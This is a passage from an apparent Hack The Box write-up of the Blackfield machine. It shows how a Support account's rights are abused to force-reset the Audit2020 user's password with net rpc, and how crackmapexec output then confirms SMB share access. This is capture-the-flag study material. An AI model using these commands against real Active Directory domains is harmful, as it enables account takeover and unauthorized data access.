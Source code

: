 ![image-20200831195835373](/assets/images/htb-writeup-blackfield/image-20200831195835373.png)

If we scroll down and select **Outbound Object Control** we can see that the **Support** user has the privileges to change the password for the **Audit2020** user. This will allow us to take over the Audit2020 account.

![image-20200831200012084](/assets/images/htb-writeup-blackfield/image-20200831200012084.png)

## Password reset for user Audit2020

We'll use the `net` program to force the password change of the **Audit2020** user. The first password entered is the new password for audit2020, here we'll use `Password123`. The second password prompt is the password for the **Support** user.

```
snowscan@kali:~/htb/blackfield_demo$ net rpc password audit2020 -U support -S 10.10.10.192
Enter new password for audit2020:
Enter WORKGROUP\support's password:
```

Using crackmapexec, we can see that the new password works and that now have access to the **forensic** SMB share:

```
snowscan@kali:~/htb/blackfield_demo$ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123 --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:Password123 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
```
